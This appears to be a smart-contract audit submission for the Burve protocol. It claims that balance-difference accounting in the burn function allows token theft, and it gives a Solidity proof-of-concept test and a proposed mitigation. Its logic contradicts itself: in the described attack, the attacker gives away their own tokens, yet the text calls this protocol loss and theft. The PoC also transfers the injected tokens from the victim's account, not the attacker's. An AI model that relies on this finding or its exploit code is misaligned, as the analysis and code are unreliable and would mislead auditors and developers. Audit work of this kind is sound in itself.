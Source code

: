 Alert Tiger Fish

High

# Token Theft Through Balance Manipulation in Burn Function

### Summary

Incorrect token balance management in the burn function will cause a loss of funds for the protocol as attackers will be able to steal tokens by injecting them into the contract during burn operations.

### Root Cause

In [Burve.sol:350](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/single/Burve.sol#L350) the burn function uses token balance differences instead of tracking exact amounts:

```solidity
uint256 priorBalance0 = token0.balanceOf(address(this));
uint256 priorBalance1 = token1.balanceOf(address(this));

// ... burn operations ...

uint256 postBalance0 = token0.balanceOf(address(this));
uint256 postBalance1 = token1.balanceOf(address(this));
TransferHelper.safeTransfer(
    address(token0),
    msg.sender,
    postBalance0 - priorBalance0
);
TransferHelper.safeTransfer(
    address(token1),
    msg.sender,
    postBalance1 - priorBalance1
);
```

Rather than calculating exact token amounts to return based on the user's share, the contract simply takes the difference between balances before and after the burn operations. This makes it vulnerable to balance manipulation attacks.

### Internal Pre-conditions

1. The protocol must have Burve liquidity pools deployed and active
2. Users must be able to call the burn function to withdraw liquidity


### External Pre-conditions

None required. The attack is possible under normal operating conditions.

### Attack Path

1. Attacker monitors the mempool for pending burn transactions
2. When a large burn transaction is identified, attacker front-runs it with their own transaction
3. Attacker's transaction transfers tokens directly to the Burve contract without using any protocol function
4. Victim's burn transaction executes, calculating token returns based on balance differences
5. The victim receives both their legitimate tokens AND the attacker's injected tokens
6. Optionally, attacker could contact the victim off-chain to arrange splitting the proceeds

### Impact

The protocol suffers a direct loss of funds equal to the amount of tokens injected by attackers. The loss could potentially be unlimited, depending on the available liquidity in the contract and the frequency of burn operations. The attacker gains these stolen tokens via the victim who unknowingly receives extra tokens during their burn operation.

### PoC

```solidity
function test_IncorrectTokenBalanceManagement() public forkOnly {
    // Setup - mint to alice
    deal(address(token0), alice, type(uint256).max);
    deal(address(token1), alice, type(uint256).max);
    vm.startPrank(alice);
    token0.approve(address(burve), type(uint256).max);
    token1.approve(address(burve), type(uint256).max);
    burve.mint(alice, 10000, 0, type(uint128).max);
    vm.stopPrank();
    
    // Setup - prepare to send tokens during burn
    uint256 extraToken0 = 1000 * 10**18;
    uint256 extraToken1 = 1000 * 10**18;
    deal(address(token0), address(this), extraToken0);
    deal(address(token1), address(this), extraToken1);
    token0.approve(address(burve), extraToken0);
    token1.approve(address(burve), extraToken1);
    
    // Record alice's balance before the burn
    uint256 aliceToken0Before = token0.balanceOf(alice);
    uint256 aliceToken1Before = token1.balanceOf(alice);
    
    // Create a contract that will inject tokens during the burn process
    vm.startPrank(alice);
    uint256 burnAmount = 5000;
    burve.approve(address(this), burnAmount);
    
    // Start a new block to prepare for the attack
    vm.roll(block.number + 1);
    
    // This will simulate the attack
    vm.expectCall(address(burve), abi.encodeWithSelector(burve.burn.selector));
    
    // Arrange to send tokens to Burve during the burn operation
    token0.transfer(address(burve), extraToken0);
    token1.transfer(address(burve), extraToken1);
    
    // Perform the burn
    burve.burn(burnAmount, 0, type(uint128).max);
    vm.stopPrank();
    
    // Check if alice received the extra tokens
    uint256 aliceToken0After = token0.balanceOf(alice);
    uint256 aliceToken1After = token1.balanceOf(alice);
    
    // Alice should receive more tokens than she should from her burn due to the injection
    assertGt(
        aliceToken0After - aliceToken0Before, 
        extraToken0, 
        "Alice should receive more token0 than expected due to balance injection"
    );
    assertGt(
        aliceToken1After - aliceToken1Before, 
        extraToken1,
        "Alice should receive more token1 than expected due to balance injection"
    );
}
```

### Mitigation

Instead of relying on balance differences, the contract should track exact amounts that should be returned from burn operations:
1. Calculate the exact amount of each token that the user should receive based on their share of the pool
2. Store these amounts in local variables
3. Perform all burning operations
4. Transfer the pre-calculated amounts to the user

```solidity
// Calculate exact amounts to return based on share
uint256 returnAmount0 = calculateExactAmount0(shares);
uint256 returnAmount1 = calculateExactAmount1(shares);

// Perform burn operations
// ...

// Transfer exact calculated amounts
TransferHelper.safeTransfer(address(token0), msg.sender, returnAmount0);
TransferHelper.safeTransfer(address(token1), msg.sender, returnAmount1);
```